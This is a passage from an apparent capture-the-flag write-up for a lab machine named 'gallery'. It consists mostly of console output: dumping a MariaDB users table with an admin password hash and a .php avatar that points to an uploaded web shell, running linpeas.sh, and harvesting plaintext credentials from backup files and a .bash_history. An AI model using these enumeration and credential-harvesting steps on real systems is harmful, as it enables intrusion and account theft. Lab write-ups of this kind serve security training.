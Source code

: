 ```console

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| gallery_db         |
| information_schema |
+--------------------+
2 rows in set (0.00 sec)

MariaDB [(none)]> use gallery_db;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [gallery_db]> show tables;
+----------------------+
| Tables_in_gallery_db |
+----------------------+
| album_list           |
| images               |
| system_info          |
| users                |
+----------------------+
4 rows in set (0.00 sec)

MariaDB [gallery_db]> select * from users;
+----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+---------------------+---------------------+
| id | firstname    | lastname | username | password                         | avatar                                          | last_login | type | date_added          | date_updated        |
+----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+---------------------+---------------------+
|  1 | Adminstrator | Admin    | admin    | a228b12a08b6527e7978cbe5d914531c | uploads/1666074420_TagojeiavxeyjeimuxrLetta.php | NULL       |    1 | 2021-01-20 14:02:37 | 2022-10-18 06:27:37 |
+----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+---------------------+---------------------+
1 row in set (0.00 sec)

MariaDB [gallery_db]>
```
On loading linpeas.sh found that there is a backup folder for the user, with accounts.tx file
```console
www-data@gallery:/var/backups/mike_home_backup/documents$ cat accounts.txt
Spotify : mike@gmail.com:mycat666
Netflix : mike@gmail.com:123456789pass
TryHackme: mike:darkhacker123
```
All these creds are useless so looked at .bash_history in the backup folder and found password for the user mike `b3stpassw0rdbr0xx` .
```console
www-data@gallery:/var/backups/mike_home_backup$ cat .bash_history
cd ~
ls
ping 1.1.1.1
cat /home/mike/user.txt
cd /var/www/
ls
cd html
ls -al
```